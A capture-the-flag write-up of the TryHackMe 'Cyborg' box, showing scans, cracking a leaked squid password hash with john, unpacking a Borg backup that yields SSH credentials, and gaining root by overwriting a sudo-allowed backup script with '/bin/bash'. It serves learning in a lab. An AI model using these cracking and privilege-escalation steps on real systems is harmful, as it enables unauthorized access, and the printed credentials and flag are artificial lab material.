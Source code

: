 ```yaml
---
published: true
layout: post
title: THM-Writeups_Cyborg
categories: Writeup
---
```

![]({{site.baseurl}}/images/Writeups/writeups-cyborg.jpeg)

###### A box involving encrypted archives, source code analysis and more. 

---

#### Let's use nmap to check the machine's ports.

```
─[✗]─[aj-tap@parrot]─[~]
└──╼ $sudo nmap -sV -sC -O -T4 -n -Pn -p- -oA fullfastscan 10.10.125.131
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-06 21:06 +08
Nmap scan report for 10.10.125.131
Host is up (0.30s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/6%OT=22%CT=1%CU=39276%PV=Y%DS=4%DC=I%G=Y%TM=6367B20
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 155.88 seconds
```
#### There are two open ports. SSH is listening on Port 22, while HTTP is listening on Port 80. We can verify this by grabbing the banner with netcat on port 22 and running whatweb on port 80.

```
┌─[✗]─[aj-tap@parrot]─[~]
└──╼ $nc 10.10.125.131 22
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.10
```

```
┌─[aj-tap@parrot]─[~]
└──╼ $whatweb 10.10.125.131 
http://10.10.125.131 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.125.131], Title[Apache2 Ubuntu Default Page: It works]
```

---

#### Let's look into the web application. We discovered that the root url contains a default Apache web page. Further investigation revealed a file in /etc/squid/squid.conf and etc/squid/passwd. It appears to be a squid proxy server that has been incorrectly configured.

### /etc/squid/squid.conf Page
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-1.png)

### /etc/squid/passwd Page
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-2.png)

#### Let's use the dirb tool to discover the site's hidden directories.
```
┌─[✗]─[aj-tap@parrot]─[~/Desktop]
└──╼ $dirb http://10.10.125.131/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Nov  6 21:27:34 2022
URL_BASE: http://10.10.125.131/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.125.131/ ----
	==> DIRECTORY: http://10.10.125.131/admin/    
```
### /admin Page
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-3.png)
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-4.png)

We just discovered the admin page. Based on the conversation, Alex set up a squid proxy, but due to a lack of knowledge of the technology, this results in a misconfiguration, which leads to an information disclosure. We found out before that the password hash is located on /squid/passwd. The admin page also includes an archive.tar file. 

![]({{site.baseurl}}/images/Writeups/writeups-cyborg-5.png)

```
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $cat README 
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```
#### Based on the README file, these are encrypted backup files used by the borg tool, which is a deduplicating backup program. We can simply install borgback using apt package manager.
```
[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $sudo apt install borgbackup
```
#### https://borgbackup.readthedocs.io/en/stable/installation.html#distribution-package
```
─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $borg list .
Enter passphrase for key /home/user/Desktop/cyborg/home/field/dev/final_archive: 
music_archive                        Tue, 2020-12-29 22:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```
#### Using borgbackup list flag, it gaves us contents of the repository which is a encrypted music_archive. We already obtain the hash password of music_archive before. Let's crack it using john. 

```
─[aj-tap@parrot]─[~/Desktop]
└──╼ $john --wordlist=/usr/share/wordlists/rockyou.txt hashpass.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
squidward        (music_archive)
1g 0:00:00:00 DONE (2022-11-06 21:33) 2.380g/s 93257p/s 93257c/s 93257C/s 091983..lilica
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

#### We recover the password from the hash. Let's supply this to borgbackup, then unpack the music archive and examine its contents.

```
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $mkdir unpacked_backup
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $borg mount . unpacked_backup/
Enter passphrase for key /home/user/Desktop/cyborg/home/field/dev/final_archive: 
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $cd unpacked_backup/
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive/unpacked_backup]
└──╼ $tree 
.
└── music_archive
    └── home
        └── alex
            ├── Desktop
            │   └── secret.txt
            ├── Documents
            │   └── note.txt
            ├── Downloads
            ├── Music
            ├── Pictures
            ├── Public
            ├── Templates
            └── Videos

11 directories, 2 files
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive/unpacked_backup]
└──╼ $cat music_archive/home/alex/Desktop/secret.txt 
shoutout to all the people who have gotten to this stage whoop whoop!"
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive/unpacked_backup]
└──╼ $cat music_archive/home/alex/Documents/note.txt 
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3

```

#### We simply obtained Alex's password from the note.txt file. Let's use this credential to log in to the machine's ssh.
```
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```
#### We found out that we can sudo backup.sh. Using this file, we can elavate our user account to root account. First, change the file permissions to read and write, and then add a script that invokes the bash program.
```
alex@ubuntu:~$ chmod 777 /etc/mp3backups/backup.sh 
alex@ubuntu:~$ echo "/bin/bash" > /etc/mp3backups/backup.sh 
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh 
root@ubuntu:~# cat /root/root.txt 
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```
